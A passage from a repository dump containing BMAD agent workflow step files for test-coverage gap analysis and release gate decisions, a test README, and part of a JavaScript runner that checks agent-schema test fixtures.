- API criteria are not marked FULL if endpoint-level checks are missing
- Auth/authz criteria include at least one denied/invalid-path test where applicable

---

### 3. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it using the workflow template (if available) with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-03-map-criteria']
  lastStep: 'step-03-map-criteria'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-03-map-criteria'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-03-map-criteria'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-trace/steps-c/step-04-analyze-gaps.md`
```markdown
---
name: 'step-04-analyze-gaps'
description: 'Complete Phase 1 with adaptive orchestration (agent-team, subagent, or sequential)'
nextStepFile: './step-05-gate-decision.md'
outputFile: '{test_artifacts}/traceability-report.md'
tempOutputFile: '/tmp/tea-trace-coverage-matrix-{{timestamp}}.json'
---

# Step 4: Complete Phase 1 - Coverage Matrix Generation

## STEP GOAL

**Phase 1 Final Step:** Analyze coverage gaps (including endpoint/auth/error-path blind spots), generate recommendations, and output complete coverage matrix to temp file for Phase 2 (gate decision).

---

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- ✅ Output coverage matrix to temp file
- ✅ Resolve execution mode from explicit user request first, then config
- ✅ Apply fallback rules deterministically when requested mode is unsupported
- ❌ Do NOT make gate decision (that's Phase 2 - Step 5)

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: requirements from Step 1, tests from Step 2, traceability matrix from Step 3
- Focus: gap analysis and matrix completion
- Limits: do not make gate decision (Phase 2 responsibility)

---

## MANDATORY SEQUENCE

### 0. Resolve Execution Mode (User Override First)

```javascript
const parseBooleanFlag = (value, defaultValue = true) => {
  if (typeof value === 'string') {
    const normalized = value.trim().toLowerCase();
    if (['false', '0', 'off', 'no'].includes(normalized)) return false;
    if (['true', '1', 'on', 'yes'].includes(normalized)) return true;
  }
  if (value === undefined || value === null) return defaultValue;
  return Boolean(value);
};

const orchestrationContext = {
  config: {
    execution_mode: config.tea_execution_mode || 'auto', // "auto" | "subagent" | "agent-team" | "sequential"
    capability_probe: parseBooleanFlag(config.tea_capability_probe, true), // supports booleans and "false"/"true" strings
  },
  timestamp: new Date().toISOString().replace(/[:.]/g, '-'),
};

const normalizeUserExecutionMode = (mode) => {
  if (typeof mode !== 'string') return null;
  const normalized = mode.trim().toLowerCase().replace(/[-_]/g, ' ').replace(/\s+/g, ' ');

  if (normalized === 'auto') return 'auto';
  if (normalized === 'sequential') return 'sequential';
  if (normalized === 'subagent' || normalized === 'sub agent' || normalized === 'subagents' || normalized === 'sub agents') {
    return 'subagent';
  }
  if (normalized === 'agent team' || normalized === 'agent teams' || normalized === 'agentteam') {
    return 'agent-team';
  }

  return null;
};

const normalizeConfigExecutionMode = (mode) => {
  if (mode === 'subagent') return 'subagent';
  if (mode === 'auto' || mode === 'sequential' || mode === 'subagent' || mode === 'agent-team') {
    return mode;
  }
  return null;
};

// Explicit user instruction in the active run takes priority over config.
const explicitModeFromUser = normalizeUserExecutionMode(runtime.getExplicitExecutionModeHint?.() || null);

const requestedMode = explicitModeFromUser || normalizeConfigExecutionMode(orchestrationContext.config.execution_mode) || 'auto';
const probeEnabled = orchestrationContext.config.capability_probe;

const supports = { subagent: false, agentTeam: false };
if (probeEnabled) {
  supports.subagent = runtime.canLaunchSubagents?.() === true;
  supports.agentTeam = runtime.canLaunchAgentTeams?.() === true;
}

let resolvedMode = requestedMode;
if (requestedMode === 'auto') {
  if (supports.agentTeam) resolvedMode = 'agent-team';
  else if (supports.subagent) resolvedMode = 'subagent';
  else resolvedMode = 'sequential';
} else if (probeEnabled && requestedMode === 'agent-team' && !supports.agentTeam) {
  resolvedMode = supports.subagent ? 'subagent' : 'sequential';
} else if (probeEnabled && requestedMode === 'subagent' && !supports.subagent) {
  resolvedMode = 'sequential';
}
```

Resolution precedence:

1. Explicit user request in this run (`agent team` => `agent-team`; `subagent` => `subagent`; `sequential`; `auto`)
2. `tea_execution_mode` from config
3. Runtime capability fallback (when probing enabled)

### 1. Gap Analysis

**Identify uncovered requirements:**

```javascript
const uncoveredRequirements = traceabilityMatrix.filter((req) => req.coverage === 'NONE');
const partialCoverage = traceabilityMatrix.filter((req) => req.coverage === 'PARTIAL');
const unitOnlyCoverage = traceabilityMatrix.filter((req) => req.coverage === 'UNIT-ONLY');
```

**Prioritize gaps by risk:**

```javascript
const criticalGaps = uncoveredRequirements.filter((req) => req.priority === 'P0');
const highGaps = uncoveredRequirements.filter((req) => req.priority === 'P1');
const mediumGaps = uncoveredRequirements.filter((req) => req.priority === 'P2');
const lowGaps = uncoveredRequirements.filter((req) => req.priority === 'P3');
```

---

### 2. Coverage Heuristics Checks

Use the heuristics inventory from Step 2 and mapped criteria from Step 3 to flag common coverage blind spots:

```javascript
const endpointCoverageGaps = coverageHeuristics?.endpoints_without_tests || [];
const authCoverageGaps = coverageHeuristics?.auth_missing_negative_paths || [];
const errorPathGaps = coverageHeuristics?.criteria_happy_path_only || [];

const heuristicGapCounts = {
  endpoints_without_tests: endpointCoverageGaps.length,
  auth_missing_negative_paths: authCoverageGaps.length,
  happy_path_only_criteria: errorPathGaps.length,
};
```

Heuristics are advisory but must influence gap severity and recommendations, especially for P0/P1 criteria.

---

### 3. Generate Recommendations

**Based on gap analysis:**

```javascript
const recommendations = [];

// Critical gaps (P0)
if (criticalGaps.length > 0) {
  recommendations.push({
    priority: 'URGENT',
    action: `Run /bmad:tea:atdd for ${criticalGaps.length} P0 requirements`,
    requirements: criticalGaps.map((r) => r.id),
  });
}

// High priority gaps (P1)
if (highGaps.length > 0) {
  recommendations.push({
    priority: 'HIGH',
    action: `Run /bmad:tea:automate to expand coverage for ${highGaps.length} P1 requirements`,
    requirements: highGaps.map((r) => r.id),
  });
}

// Partial coverage
if (partialCoverage.length > 0) {
  recommendations.push({
    priority: 'MEDIUM',
    action: `Complete coverage for ${partialCoverage.length} partially covered requirements`,
    requirements: partialCoverage.map((r) => r.id),
  });
}

if (endpointCoverageGaps.length > 0) {
  recommendations.push({
    priority: 'HIGH',
    action: `Add API tests for ${endpointCoverageGaps.length} uncovered endpoint(s)`,
    requirements: endpointCoverageGaps.map((r) => r.id || r.endpoint || 'unknown'),
  });
}

if (authCoverageGaps.length > 0) {
  recommendations.push({
    priority: 'HIGH',
    action: `Add negative-path auth/authz tests for ${authCoverageGaps.length} requirement(s)`,
    requirements: authCoverageGaps.map((r) => r.id || 'unknown'),
  });
}

if (errorPathGaps.length > 0) {
  recommendations.push({
    priority: 'MEDIUM',
    action: `Add error/edge scenario tests for ${errorPathGaps.length} happy-path-only criterion/criteria`,
    requirements: errorPathGaps.map((r) => r.id || 'unknown'),
  });
}

// Quality issues
recommendations.push({
  priority: 'LOW',
  action: 'Run /bmad:tea:test-review to assess test quality',
  requirements: [],
});
```

---

### 4. Calculate Coverage Statistics

```javascript
const totalRequirements = traceabilityMatrix.length;
const coveredRequirements = traceabilityMatrix.filter((r) => r.coverage === 'FULL' || r.coverage === 'PARTIAL').length;
const fullyCovered = traceabilityMatrix.filter((r) => r.coverage === 'FULL').length;

const safePct = (covered, total) => (total > 0 ? Math.round((covered / total) * 100) : 100);
const coveragePercentage = safePct(fullyCovered, totalRequirements);

// Priority-specific coverage
const p0Total = traceabilityMatrix.filter((r) => r.priority === 'P0').length;
const p0Covered = traceabilityMatrix.filter((r) => r.priority === 'P0' && r.coverage === 'FULL').length;
const p1Total = traceabilityMatrix.filter((r) => r.priority === 'P1').length;
const p1Covered = traceabilityMatrix.filter((r) => r.priority === 'P1' && r.coverage === 'FULL').length;
const p2Total = traceabilityMatrix.filter((r) => r.priority === 'P2').length;
const p2Covered = traceabilityMatrix.filter((r) => r.priority === 'P2' && r.coverage === 'FULL').length;
const p3Total = traceabilityMatrix.filter((r) => r.priority === 'P3').length;
const p3Covered = traceabilityMatrix.filter((r) => r.priority === 'P3' && r.coverage === 'FULL').length;

const p0CoveragePercentage = safePct(p0Covered, p0Total);
const p1CoveragePercentage = safePct(p1Covered, p1Total);
const p2CoveragePercentage = safePct(p2Covered, p2Total);
const p3CoveragePercentage = safePct(p3Covered, p3Total);
```

---

### 5. Generate Complete Coverage Matrix

**Compile all Phase 1 outputs:**

```javascript
const coverageMatrix = {
  phase: 'PHASE_1_COMPLETE',
  generated_at: new Date().toISOString(),

  requirements: traceabilityMatrix, // Full matrix from Step 3

  coverage_statistics: {
    total_requirements: totalRequirements,
    fully_covered: fullyCovered,
    partially_covered: partialCoverage.length,
    uncovered: uncoveredRequirements.length,
    overall_coverage_percentage: coveragePercentage,

    priority_breakdown: {
      P0: { total: p0Total, covered: p0Covered, percentage: p0CoveragePercentage },
      P1: { total: p1Total, covered: p1Covered, percentage: p1CoveragePercentage },
      P2: { total: p2Total, covered: p2Covered, percentage: p2CoveragePercentage },
      P3: { total: p3Total, covered: p3Covered, percentage: p3CoveragePercentage },
    },
  },

  gap_analysis: {
    critical_gaps: criticalGaps,
    high_gaps: highGaps,
    medium_gaps: mediumGaps,
    low_gaps: lowGaps,
    partial_coverage_items: partialCoverage,
    unit_only_items: unitOnlyCoverage,
  },

  coverage_heuristics: {
    endpoint_gaps: endpointCoverageGaps,
    auth_negative_path_gaps: authCoverageGaps,
    happy_path_only_gaps: errorPathGaps,
    counts: heuristicGapCounts,
  },

  recommendations: recommendations,
};
```

---

### 6. Output Coverage Matrix to Temp File

**Write to temp file for Phase 2:**

```javascript
const outputPath = '{tempOutputFile}';
fs.writeFileSync(outputPath, JSON.stringify(coverageMatrix, null, 2), 'utf8');

console.log(`✅ Phase 1 Complete: Coverage matrix saved to ${outputPath}`);
```

---

### 7. Display Phase 1 Summary

```
✅ Phase 1 Complete: Coverage Matrix Generated

📊 Coverage Statistics:
- Total Requirements: {totalRequirements}
- Fully Covered: {fullyCovered} ({coveragePercentage}%)
- Partially Covered: {partialCoverage.length}
- Uncovered: {uncoveredRequirements.length}

🎯 Priority Coverage:
- P0: {p0Covered}/{p0Total} ({p0CoveragePercentage}%)
- P1: {p1Covered}/{p1Total} ({p1CoveragePercentage}%)
- P2: {p2Covered}/{p2Total} ({p2CoveragePercentage}%)
- P3: {p3Covered}/{p3Total} ({p3CoveragePercentage}%)

⚠️ Gaps Identified:
- Critical (P0): {criticalGaps.length}
- High (P1): {highGaps.length}
- Medium (P2): {mediumGaps.length}
- Low (P3): {lowGaps.length}

🔍 Coverage Heuristics:
- Endpoints without tests: {endpointCoverageGaps.length}
- Auth negative-path gaps: {authCoverageGaps.length}
- Happy-path-only criteria: {errorPathGaps.length}

📝 Recommendations: {recommendations.length}

🔄 Phase 2: Gate decision (next step)
```

### Orchestration Notes for This Step

When `resolvedMode` is `agent-team` or `subagent`, parallelize only dependency-safe sections:

- Worker A: gap classification (section 1)
- Worker B: heuristics gap extraction (section 2)
- Worker C: coverage statistics (section 4)

Section 3 (recommendation synthesis) depends on outputs from sections 1 and 2, so run it only after Workers A and B complete.

Section 5 remains the deterministic merge point after sections 1-4 are finished.

If `resolvedMode` is `sequential`, execute sections 1→7 in order.

---

## EXIT CONDITION

**PHASE 1 COMPLETE when:**

- ✅ Gap analysis complete
- ✅ Recommendations generated
- ✅ Coverage statistics calculated
- ✅ Coverage matrix saved to temp file
- ✅ Summary displayed

**Proceed to Phase 2 (Step 5: Gate Decision)**

---

### 8. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it using the workflow template (if available) with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-04-analyze-gaps']
  lastStep: 'step-04-analyze-gaps'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-04-analyze-gaps'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-04-analyze-gaps'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

Load next step: `{nextStepFile}`

---

## 🚨 PHASE 1 SUCCESS METRICS

### ✅ SUCCESS:

- Coverage matrix complete and accurate
- All gaps identified and prioritized
- Recommendations actionable
- Temp file output valid JSON

### ❌ FAILURE:

- Coverage matrix incomplete
- Gap analysis missing
- Invalid JSON output

**Master Rule:** Phase 1 MUST output complete coverage matrix to temp file before Phase 2 can proceed.
```

## File: `src/workflows/testarch/bmad-testarch-trace/steps-c/step-05-gate-decision.md`
```markdown
---
name: 'step-05-gate-decision'
description: 'Phase 2: Apply gate decision logic and generate outputs'
outputFile: '{test_artifacts}/traceability-report.md'
---

# Step 5: Phase 2 - Gate Decision

## STEP GOAL

**Phase 2:** Read coverage matrix from Phase 1, apply deterministic gate decision logic, and generate traceability report.

---

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- ✅ Read coverage matrix from Phase 1 temp file
- ✅ Apply gate decision logic
- ❌ Do NOT regenerate coverage matrix (use Phase 1 output)

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 This is the FINAL step

## CONTEXT BOUNDARIES:

- Available context: Coverage matrix from Phase 1 temp file
- Focus: gate decision logic only
- Dependencies: Phase 1 complete (coverage matrix exists)

---

## MANDATORY SEQUENCE

### 1. Read Phase 1 Coverage Matrix

```javascript
const matrixPath = '/tmp/tea-trace-coverage-matrix-{{timestamp}}.json';
const coverageMatrix = JSON.parse(fs.readFileSync(matrixPath, 'utf8'));

console.log('✅ Phase 1 coverage matrix loaded');
```

**Verify Phase 1 complete:**

```javascript
if (coverageMatrix.phase !== 'PHASE_1_COMPLETE') {
  throw new Error('Phase 1 not complete - cannot proceed to gate decision');
}
```

---

### 2. Apply Gate Decision Logic

**Decision Tree:**

```javascript
const stats = coverageMatrix.coverage_statistics;
const p0Coverage = stats.priority_breakdown.P0.percentage;
const p1Coverage = stats.priority_breakdown.P1.percentage;
const hasP1Requirements = (stats.priority_breakdown.P1.total || 0) > 0;
const effectiveP1Coverage = hasP1Requirements ? p1Coverage : 100;
const overallCoverage = stats.overall_coverage_percentage;
const criticalGaps = coverageMatrix.gap_analysis.critical_gaps.length;

let gateDecision;
let rationale;

// Rule 1: P0 coverage must be 100%
if (p0Coverage < 100) {
  gateDecision = 'FAIL';
  rationale = `P0 coverage is ${p0Coverage}% (required: 100%). ${criticalGaps} critical requirements uncovered.`;
}
// Rule 2: Overall coverage must be >= 80%
else if (overallCoverage < 80) {
  gateDecision = 'FAIL';
  rationale = `Overall coverage is ${overallCoverage}% (minimum: 80%). Significant gaps exist.`;
}
// Rule 3: P1 coverage < 80% → FAIL
else if (effectiveP1Coverage < 80) {
  gateDecision = 'FAIL';
  rationale = hasP1Requirements
    ? `P1 coverage is ${effectiveP1Coverage}% (minimum: 80%). High-priority gaps must be addressed.`
    : `P1 requirements are not present; continuing with remaining gate criteria.`;
}
// Rule 4: P1 coverage >= 90% and overall >= 80% with P0 at 100% → PASS
else if (effectiveP1Coverage >= 90) {
  gateDecision = 'PASS';
  rationale = hasP1Requirements
    ? `P0 coverage is 100%, P1 coverage is ${effectiveP1Coverage}% (target: 90%), and overall coverage is ${overallCoverage}% (minimum: 80%).`
    : `P0 coverage is 100% and overall coverage is ${overallCoverage}% (minimum: 80%). No P1 requirements detected.`;
}
// Rule 5: P1 coverage 80-89% with P0 at 100% and overall >= 80% → CONCERNS
else if (effectiveP1Coverage >= 80) {
  gateDecision = 'CONCERNS';
  rationale = hasP1Requirements
    ? `P0 coverage is 100% and overall coverage is ${overallCoverage}% (minimum: 80%), but P1 coverage is ${effectiveP1Coverage}% (target: 90%).`
    : `P0 coverage is 100% and overall coverage is ${overallCoverage}% (minimum: 80%), but additional non-P1 gaps need mitigation.`;
}

// Rule 6: Manual waiver option
const manualWaiver = false; // Can be set via config or user input
if (manualWaiver) {
  gateDecision = 'WAIVED';
  rationale += ' Manual waiver applied by stakeholder.';
}
```

---

### 3. Generate Gate Report

```javascript
const gateReport = {
  decision: gateDecision,
  rationale: rationale,
  decision_date: new Date().toISOString(),

  coverage_matrix: coverageMatrix,

  gate_criteria: {
    p0_coverage_required: '100%',
    p0_coverage_actual: `${p0Coverage}%`,
    p0_status: p0Coverage === 100 ? 'MET' : 'NOT MET',

    p1_coverage_target_pass: '90%',
    p1_coverage_minimum: '80%',
    p1_coverage_actual: `${effectiveP1Coverage}%`,
    p1_status: effectiveP1Coverage >= 90 ? 'MET' : effectiveP1Coverage >= 80 ? 'PARTIAL' : 'NOT MET',

    overall_coverage_minimum: '80%',
    overall_coverage_actual: `${overallCoverage}%`,
    overall_status: overallCoverage >= 80 ? 'MET' : 'NOT MET',
  },

  uncovered_requirements: coverageMatrix.gap_analysis.critical_gaps.concat(coverageMatrix.gap_analysis.high_gaps),

  recommendations: coverageMatrix.recommendations,
};
```

---

### 4. Generate Traceability Report

**Use trace-template.md to generate:**

```markdown
# Traceability Report

## Gate Decision: {gateDecision}

**Rationale:** {rationale}

## Coverage Summary

- Total Requirements: {totalRequirements}
- Covered: {fullyCovered} ({coveragePercentage}%)
- P0 Coverage: {p0CoveragePercentage}%

## Traceability Matrix

[Full matrix with requirement → test mappings]

## Gaps & Recommendations

[List of uncovered requirements with recommended actions]

## Next Actions

{recommendations}
```

**Save to:**

```javascript
fs.writeFileSync('{outputFile}', reportContent, 'utf8');
```

---

### 5. Display Gate Decision

```
🚨 GATE DECISION: {gateDecision}

📊 Coverage Analysis:
- P0 Coverage: {p0Coverage}% (Required: 100%) → {p0_status}
- P1 Coverage: {effectiveP1Coverage}% (PASS target: 90%, minimum: 80%) → {p1_status}
- Overall Coverage: {overallCoverage}% (Minimum: 80%) → {overall_status}

✅ Decision Rationale:
{rationale}

⚠️ Critical Gaps: {criticalGaps.length}

📝 Recommended Actions:
{list top 3 recommendations}

📂 Full Report: {outputFile}

{if FAIL}
🚫 GATE: FAIL - Release BLOCKED until coverage improves
{endif}

{if CONCERNS}
⚠️ GATE: CONCERNS - Proceed with caution, address gaps soon
{endif}

{if PASS}
✅ GATE: PASS - Release approved, coverage meets standards
{endif}
```

---

### 6. Save Progress

**Update the YAML frontmatter in `{outputFile}` to mark this final step complete.**

Since step 4 (Generate Traceability Report) already wrote the report content to `{outputFile}`, do NOT overwrite it. Instead, update only the frontmatter at the top of the existing file:

- Add `'step-05-gate-decision'` to `stepsCompleted` array (only if not already present)
- Set `lastStep: 'step-05-gate-decision'`
- Set `lastSaved: '{date}'`

Then append the gate decision summary (from section 5 above) to the end of the existing report content.

---

## EXIT CONDITION

**WORKFLOW COMPLETE when:**

- ✅ Phase 1 coverage matrix read successfully
- ✅ Gate decision logic applied
- ✅ Traceability report generated
- ✅ Gate decision displayed

**Workflow terminates here.**

---

## 🚨 PHASE 2 SUCCESS METRICS

### ✅ SUCCESS:

- Coverage matrix read from Phase 1
- Gate decision made with clear rationale
- Report generated and saved
- Decision communicated clearly

### ❌ FAILURE:

- Could not read Phase 1 matrix
- Gate decision logic incorrect
- Report missing or incomplete

**Master Rule:** Gate decision MUST be deterministic based on clear criteria (P0 100%, P1 90/80, overall >=80).
```

## File: `src/workflows/testarch/bmad-testarch-trace/steps-e/step-01-assess.md`
```markdown
---
name: 'step-01-assess'
description: 'Load an existing output for editing'
nextStepFile: './step-02-apply-edit.md'
---

# Step 1: Assess Edit Target

## STEP GOAL:

Identify which output should be edited and load it.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Ask the user which output file to edit
- 🚫 Do not edit until target is confirmed

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly

## CONTEXT BOUNDARIES:

- Available context: existing outputs
- Focus: select edit target
- Limits: no edits yet

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Identify Target

Ask the user to provide the output file path or select from known outputs.

### 2. Load Target

Read the provided output file in full.

### 3. Confirm

Confirm the target and proceed to edit.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Target identified and loaded

### ❌ SYSTEM FAILURE:

- Proceeding without a confirmed target
```

## File: `src/workflows/testarch/bmad-testarch-trace/steps-e/step-02-apply-edit.md`
```markdown
---
name: 'step-02-apply-edit'
description: 'Apply edits to the selected output'
---

# Step 2: Apply Edits

## STEP GOAL:

Apply the requested edits to the selected output and confirm changes.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Only apply edits explicitly requested by the user

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly

## CONTEXT BOUNDARIES:

- Available context: selected output and user changes
- Focus: apply edits only

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Confirm Requested Changes

Restate what will be changed and confirm.

### 2. Apply Changes

Update the output file accordingly.

### 3. Report

Summarize the edits applied.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Changes applied and confirmed

### ❌ SYSTEM FAILURE:

- Unconfirmed edits or missing update
```

## File: `src/workflows/testarch/bmad-testarch-trace/steps-v/step-01-validate.md`
```markdown
---
name: 'step-01-validate'
description: 'Validate workflow outputs against checklist'
outputFile: '{test_artifacts}/trace-validation-report.md'
validationChecklist: '../checklist.md'
---

# Step 1: Validate Outputs

## STEP GOAL:

Validate outputs using the workflow checklist and record findings.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Validate against `{validationChecklist}`
- 🚫 Do not skip checks

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Write findings to `{outputFile}`

## CONTEXT BOUNDARIES:

- Available context: workflow outputs and checklist
- Focus: validation only
- Limits: do not modify outputs in this step

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Load Checklist

Read `{validationChecklist}` and list all criteria.

### 2. Validate Outputs

Evaluate outputs against each checklist item.

### 3. Write Report

Write a validation report to `{outputFile}` with PASS/WARN/FAIL per section.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Validation report written
- All checklist items evaluated

### ❌ SYSTEM FAILURE:

- Skipped checklist items
- No report produced
```

## File: `test/README.md`
```markdown
# Agent Schema Validation Test Suite

Comprehensive test coverage for the BMAD agent schema validation system.

## Overview

This test suite validates the Zod-based schema validator (`tools/schema/agent.js`) that ensures all `*.agent.yaml` files conform to the BMAD agent specification.

## Quick Start

```bash
# Run all tests
npm test

# Run with coverage report
npm run test:coverage

# Run CLI integration tests
./test/test-cli-integration.sh

# Validate actual agent files
npm run validate:schemas
```
```

## File: `test/test-agent-schema.js`
```javascript
/**
 * Agent Schema Validation Test Runner
 *
 * Runs all test fixtures and verifies expected outcomes.
 * Reports pass/fail for each test and overall coverage statistics.
 *
 * Usage: node test/test-agent-schema.js
 * Exit codes: 0 = all tests pass, 1 = test failures
 */

const fs = require('node:fs');
const path = require('node:path');
const yaml = require('yaml');
const { validateAgentFile } = require('./schema/agent.js');
const { glob } = require('glob');

// ANSI color codes
const colors = {
  reset: '\u001B[0m',
  green: '\u001B[32m',
  red: '\u001B[31m',
  yellow: '\u001B[33m',
  blue: '\u001B[34m',
  cyan: '\u001B[36m',
  dim: '\u001B[2m',
};

/**
 * Parse test metadata from YAML comments
 * @param {string} filePath
 * @returns {{shouldPass: boolean, errorExpectation?: object, pathContext?: string}}
 */
function parseTestMetadata(filePath) {
  const content = fs.readFileSync(filePath, 'utf8');
  const lines = content.split('\n');

  let shouldPass = true;
  let pathContext = null;
  const errorExpectation = {};

  for (const line of lines) {
    if (line.includes('Expected: PASS')) {
      shouldPass = true;
    } else if (line.includes('Expected: FAIL')) {
      shouldPass = false;
    }

    // Parse error metadata
    const codeMatch = line.match(/^# Error code: (.+)$/);
    if (codeMatch) {
      errorExpectation.code = codeMatch[1].trim();
    }

    const pathMatch = line.match(/^# Error path: (.+)$/);
    if (pathMatch) {
      errorExpectation.path = pathMatch[1].trim();
    }

    const messageMatch = line.match(/^# Error message: (.+)$/);
    if (messageMatch) {
      errorExpectation.message = messageMatch[1].trim();
    }

    const minimumMatch = line.match(/^# Error minimum: (\d+)$/);
    if (minimumMatch) {
      errorExpectation.minimum = parseInt(minimumMatch[1], 10);
    }

    const expectedMatch = line.match(/^# Error expected: (.+)$/);
    if (expectedMatch) {
      errorExpectation.expected = expectedMatch[1].trim();
    }

    const receivedMatch = line.match(/^# Error received: (.+)$/);
    if (receivedMatch) {
      errorExpectation.received = receivedMatch[1].trim();
    }

    const keysMatch = line.match(/^# Error keys: \[(.+)\]$/);
    if (keysMatch) {
      errorExpectation.keys = keysMatch[1].split(',').map((k) => k.trim().replaceAll(/['"]/g, ''));
    }

    const contextMatch = line.match(/^# Path context: (.+)$/);
    if (contextMatch) {
      pathContext = contextMatch[1].trim();
    }
  }

  return {
    shouldPass,
    errorExpectation: Object.keys(errorExpectation).length > 0 ? errorExpectation : null,
    pathContext,
  };
}

/**
 * Convert dot-notation path string to array (handles array indices)
 * e.g., "agent.menu[0].trigger" => ["agent", "menu", 0, "trigger"]
 */
function parsePathString(pathString) {
  return pathString
    .replaceAll(/\[(\d+)\]/g, '.$1') // Convert [0] to .0
    .split('.')
    .map((part) => {
      const num = parseInt(part, 10);
      return isNaN(num) ? part : num;
    });
}

/**
 * Validate error against expectations
 * @param {object} error - Zod error issue
 * @param {object} expectation - Expected error structure
 * @returns {{valid: boolean, reason?: string}}
 */
function validateError(error, expectation) {
  // Check error code
  if (expectation.code && error.code !== expectation.code) {
    return { valid: false, reason: `Expected code "${expectation.code}", got "${error.code}"` };
  }

  // Check error path
  if (expectation.path) {
    const expectedPath = parsePathString(expectation.path);
    const actualPath = error.path;

    if (JSON.stringify(expectedPath) !== JSON.stringify(actualPath)) {
      return {
        valid: false,
        reason: `Expected path ${JSON.stringify(expectedPath)}, got ${JSON.stringify(actualPath)}`,
      };
    }
  }

  // For custom errors, strictly check message
  if (expectation.code === 'custom' && expectation.message && error.message !== expectation.message) {
    return {
      valid: false,
      reason: `Expected message "${expectation.message}", got "${error.message}"`,
    };
  }

  // For Zod errors, check type-specific fields
  if (expectation.minimum !== undefined && error.minimum !== expectation.minimum) {
    return { valid: false, reason: `Expected minimum ${expectation.minimum}, got ${error.minimum}` };
  }

  if (expectation.expected && error.expected !== expectation.expected) {
    return { valid: false, reason: `Expected type "${expectation.expected}", got "${error.expected}"` };
  }

  if (expectation.received && error.received !== expectation.received) {
    return { valid: false, reason: `Expected received "${expectation.received}", got "${error.received}"` };
  }

  if (expectation.keys) {
    const expectedKeys = expectation.keys.sort();
    const actualKeys = (error.keys || []).sort();
    if (JSON.stringify(expectedKeys) !== JSON.stringify(actualKeys)) {
      return {
        valid: false,
        reason: `Expected keys ${JSON.stringify(expectedKeys)}, got ${JSON.stringify(actualKeys)}`,
      };
    }
  }

  return { valid: true };
}

/**
 * Run a single test case
 * @param {string} filePath
 * @returns {{passed: boolean, message: string}}
 */
function runTest(filePath) {
  const metadata = parseTestMetadata(filePath);
  const { shouldPass, errorExpectation, pathContext } = metadata;

  try {
    const fileContent = fs.readFileSync(filePath, 'utf8');
    let agentData;

    try {
      agentData = yaml.parse(fileContent);
    } catch (parseError) {
      // YAML parse error
      if (shouldPass) {
        return {
          passed: false,
          message: `Expected PASS but got YAML parse error: ${parseError.message}`,
        };
      }
      return {
        passed: true,
        message: 'Got expected YAML parse error',
      };
    }

    // Determine validation path
    // If pathContext is specified in comments, use it; otherwise derive from fixture location
    let validationPath = pathContext;
    if (!validationPath) {
      // Map fixture location to simulated src/ path
      const relativePath = path.relative(path.join(__dirname, 'fixtures/agent-schema'), filePath);
      const parts = relativePath.split(path.sep);

      if (parts.includes('metadata') && parts[0] === 'valid') {
        // Valid metadata tests: check if filename suggests module or core
        const filename = path.basename(filePath);
        if (filename.includes('module')) {
          validationPath = 'src/modules/bmm/agents/test.agent.yaml';
        } else {
          validationPath = 'src/core/agents/test.agent.yaml';
        }
      } else if (parts.includes('metadata') && parts[0] === 'invalid') {
        // Invalid metadata tests: derive from filename
        const filename = path.basename(filePath);
        if (filename.includes('module') || filename.includes('wrong-module')) {
          validationPath = 'src/modules/bmm/agents/test.agent.yaml';
        } else if (filename.includes('core')) {
          validationPath = 'src/core/agents/test.agent.yaml';
        } else {
          validationPath = 'src/core/agents/test.agent.yaml';
        }
      } else {
        // Default to core agent path
        validationPath = 'src/core/agents/test.agent.yaml';
      }
    }

    const result = validateAgentFile(validationPath, agentData);

    if (result.success && shouldPass) {
      return {
        passed: true,
        message: 'Validation passed as expected',
      };
    }

    if (!result.success && !shouldPass) {
